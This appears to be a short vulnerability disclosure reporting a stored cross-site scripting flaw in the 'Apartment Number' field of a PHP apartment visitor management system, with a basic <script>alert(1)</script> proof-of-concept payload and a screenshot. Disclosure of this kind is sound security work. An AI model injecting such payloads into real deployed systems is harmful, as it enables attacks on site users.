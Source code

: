 # Apartment Visitor Management System-XSS

### Date: 

> ### 2022-08/06



### Exploit Author:

> ### anx0ing@gmail.com



### Vendor Homepage: 

> [https://www.sourcecodester.com](https://www.sourcecodester.com/)



### Software Link: 

> https://www.sourcecodester.com/php-apartment-visitor-management-system-source-code



### Version: 

> ### 1.0



### /manage-apartment.php

in Add New Entry insert Cross Site Scripting(XSS) Code

`Apartment Number`Parameters have Cross Site Scripting(XSS)

> POC

```
<script>alert(1)</script>
```

![image-20220806002250606](https://cdn.jsdelivr.net/gh/beytagh001/blog-img/image-20220806002250606.png)



